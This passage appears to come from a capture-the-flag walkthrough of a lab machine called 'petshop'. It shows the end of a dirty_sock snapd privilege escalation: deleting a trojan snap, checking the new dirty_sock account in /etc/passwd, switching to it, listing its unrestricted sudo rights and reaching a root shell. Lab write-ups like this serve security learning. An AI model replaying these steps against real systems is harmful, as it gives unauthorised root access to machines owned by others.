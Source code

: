 ```text
[+] Deleting trojan snap (and sleeping 5 seconds)...
```

Did it work?

```text
www-data@petshop:/var/www/monitorr/assets/data/usrimg# cat /etc/passwd | grep dirty
dirty_sock:x:1001:1001::/home/dirty_sock:/bin/bash
```

Account was created, let's try and switch user:

```text
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ su dirty_sock
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
dirty_sock@petshop:/var/www/monitorr/assets/data/usrimg$
```

What can we do?

```text
dirty_sock@petshop:/var/www/monitorr/assets/data/usrimg$ sudo -l
Matching Defaults entries for dirty_sock on petshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

Runas and Command-specific defaults for dirty_sock:
    Defaults!/sbin/service jellyfin restart, /usr/sbin/service jellyfin restart !requiretty
    Defaults!/sbin/service jellyfin start, /usr/sbin/service jellyfin start !requiretty
    Defaults!/sbin/service jellyfin stop, /usr/sbin/service jellyfin stop !requiretty
    Defaults!/usr/bin/systemctl restart jellyfin, /bin/systemctl restart jellyfin !requiretty
    Defaults!/usr/bin/systemctl start jellyfin, /bin/systemctl start jellyfin !requiretty
    Defaults!/usr/bin/systemctl stop jellyfin, /bin/systemctl stop jellyfin !requiretty
    Defaults!/etc/init.d/jellyfin restart !requiretty
    Defaults!/etc/init.d/jellyfin start !requiretty
    Defaults!/etc/init.d/jellyfin stop !requiretty

User dirty_sock may run the following commands on petshop:
    (ALL : ALL) ALL
    (ALL : ALL) ALL
```

Everything! Awesome. Let's get to root just because we can:

```text
dirty_sock@petshop:/var/www/monitorr/assets/data/usrimg$ sudo su
[sudo] password for dirty_sock:

root@petshop:/var/www/monitorr/assets/data/usrimg# id
uid=0(root) gid=0(root) groups=0(root)
```

## Root Flag
